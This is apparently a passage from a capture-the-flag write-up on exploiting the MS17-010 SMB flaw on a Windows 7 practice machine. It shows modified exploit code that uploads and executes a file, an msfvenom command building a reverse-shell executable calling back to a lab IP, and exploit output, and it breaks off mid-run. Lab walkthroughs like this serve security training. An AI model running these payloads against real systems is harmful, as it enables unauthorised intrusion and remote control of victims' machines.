             smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
            service_exec(conn, r'cmd /c c:\%s' % filename)



It's very similar to what's going on in the original, but it's updated
to upload `lfile` to `C:\filename` and then run it.

You can either modify `zzz_exploit.py`, use `send_and_execute.py`, or
make your own script using the functions from that repo.

#### Cred Update

Just like with `smbmap` above, when I try to run this with username as
an empty string, it won't auth. However, if I just add any string into
the username, it will then work.

When I was doing OSCP (2.5 years ago now), there were many boxes that
would fall to this script with blank creds. I believe it should act
similar to what you see with `smbmap`. But just like there, it's always
better to try both with and without bad creds if you aren't sure (and of
course if you have good creds, then use those!).

#### Shell

I'll generate a payload with `msfvenom`:



    oxdf@parrot$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes
    Saved as: rev.exe



While x64 is relatively universal for Windows systems today, in 2017
when this box was released, x86 was much more common, especially in
Windows 7.

`shell_reverse_tcp` is a raw command shell (non-meterpreter), and it is
not staged (which is to say the entire payload is in that one exe,
instead of just a stub that will connect back and get the rest). With
both of those, I can just catch the shell with `nc`. If I wanted a
staged payload, I would have done `shell/reverse_tcp`.

With the username updated to "0xdf", I'll start `nc`, and run
`send_and_execute.py`:



    (impacket-venv) oxdf@parrot$ python send_and_execute.py 10.10.10.40 rev.exe 
    Trying to connect to 10.10.10.40:445
    Target OS: Windows 7 Professional 7601 Service Pack 1
    Using named pipe: browser
    Target is 64 bit
    Got frag size: 0x10
    GROOM_POOL_SIZE: 0x5030
    BRIDE_TRANS_SIZE: 0xfa0
    CONNECTION: 0xfffffa8001c3d8f0
    SESSION: 0xfffff8a0019ee2a0
    FLINK: 0xfffff8a00264f048
    InParam: 0xfffff8a00283a15c
    MID: 0xd07
    unexpected alignment, diff: 0x-1ebfb8
    leak failed... try again
    CONNECTION: 0xfffffa8001c3d8f0
    SESSION: 0xfffff8a0019ee2a0
    FLINK: 0xfffff8a002850088